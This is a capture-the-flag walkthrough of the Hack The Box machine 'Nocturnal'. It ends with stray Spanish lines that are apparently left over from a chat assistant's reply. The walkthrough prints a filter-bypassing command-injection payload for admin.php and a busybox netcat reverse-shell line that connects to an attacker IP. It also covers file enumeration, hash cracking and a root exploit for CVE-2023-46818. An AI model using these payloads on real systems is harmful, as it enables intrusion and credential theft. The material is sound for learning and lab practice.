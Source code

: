 # HTB - Nocturnal

## Reconnaissance

### Port Scanning

To begin the assessment, a full TCP SYN scan was performed on all ports to identify open services:

```bash
sudo nmap -sS -Pn -n -p- --min-rate 5000 10.10.11.64
````

![Port scan](images/20250727143751.png)

Once the open ports were identified, a more detailed service/version scan was launched on ports 22 and 80:

```bash
sudo nmap -sCV -Pn -n -p22,80 10.10.11.64
```

![Service detection](images/20250727143936.png)

The scan revealed the virtual host `http://nocturnal.htb`. This was added to the local `/etc/hosts` file to resolve the hostname properly:

![Hosts entry](images/20250727144211.png)

## Web Exploration

Upon accessing the domain:

![Main page](images/20250727144235.png)

A test user named `test` was created through the registration form:

![Test user creation](images/20250727144334.png)

The file upload feature allowed only files with the following extensions: `.pdf`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.odt`.

![Upload restrictions](images/20250727144655.png)

Analyzing the URLs generated after uploading files revealed that it was possible to manipulate the `username` and `file` parameters to access files uploaded by other users.

![Path traversal test](images/20250727145006.png)

## Enumeration & File Discovery

A brute-force attack was initiated to enumerate valid usernames and filenames stored on the server:

![Brute-force attack](images/20250727152938.png)

The attack revealed:

* **Username:** `amanda`
* **File:** `privacy.odt`

![File found](images/20250727153012.png)

The file was accessed directly from:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

![File download](images/20250727153131.png)

The document contained Amanda’s credentials:

![Credentials found](images/20250727153219.png)

Using these credentials, access was gained to an administrative panel:

![Admin panel](images/20250727153308.png)

## Vulnerability in Admin Panel

Analyzing the source code of `admin.php` revealed a vulnerable **backup generation** feature:

![Vulnerable code](images/20250727153329.png)

### Vulnerability Summary

* Admins could create ZIP backups of the directory, protected by a password.
* The password field was passed directly into the `zip` shell command via `proc_open()`.
* The `cleanEntry()` function was used for input sanitization but only blacklisted certain characters (`;`, `&`, `|`, `$`, etc.).
* There was no proper escaping or whitelisting of input.

A test for command injection was performed by intercepting and modifying the POST request:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Type: application/x-www-form-urlencoded

password=%0abash%09-c%09"whoami"&backup=
```

Explanation:

* `%0a`: newline (terminates input)
* `%09`: tab (used to bypass space filtering)
* `bash -c "whoami"`: executes command

![Command injection test](images/20250727153329.png)

## Reverse Shell

After confirming command execution, a reverse shell was triggered using `busybox` with netcat:

```bash
password=%0abash%09-c%09"busybox%09nc%0910.10.14.20%094444%09-e%09/bin/bash”&backup=
```

![Reverse shell sent](images/rev_shell_payload.png)

A listener was opened on the attacker's machine:

![Listener](images/20250727143254.png)

Once inside the shell, the SQLite database was queried, revealing user accounts and password hashes. The user containing the flag was `tobias`.

![SQLite dump](images/20250727143507.png)

The hash was cracked using [hashes.com](https://hashes.com):

![Hash cracked](images/20250727143326.png)

Using the recovered credentials, SSH access was gained:

```bash
ssh tobias@nocturnal.htb
```

![SSH access](images/20250727153703.png)

## Pivoting: Accessing Internal Services

During local enumeration, an internal service was discovered on port `8080`. This service was not accessible externally, so SSH port forwarding was used:

```bash
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
```

![Port forwarding](images/port_forwarding.png)

The web interface of ISPConfig was exposed at `http://127.0.0.1:8081`. Default credentials were tested and successful:

* **Username:** admin
* **Password:** slowmotionapocalypse

![ISPConfig login](images/ispconfig_login.png)

## Remote Code Execution (RCE)

ISPConfig was running a version affected by the critical vulnerability:

> **CVE-2023-46818** – Remote Code Execution

A public exploit was found and executed:

* [https://github.com/engranaabubakar/CVE-2023-46818](https://github.com/engranaabubakar/CVE-2023-46818)

The exploit granted **root** access to the server, successfully completing the CTF challenge.

![Root access](images/root_access.png)
- Asegúrate de que todas las imágenes estén correctamente renombradas y almacenadas en la carpeta `images/` dentro del mismo directorio que el `.md`.
- Si necesitas que genere también un `.pdf` o `.html` a partir del `.md`, puedo ayudarte con el comando de `pandoc` o `typora`.

¿Quieres que te lo exporte como `.pdf` o `.html` también?
```
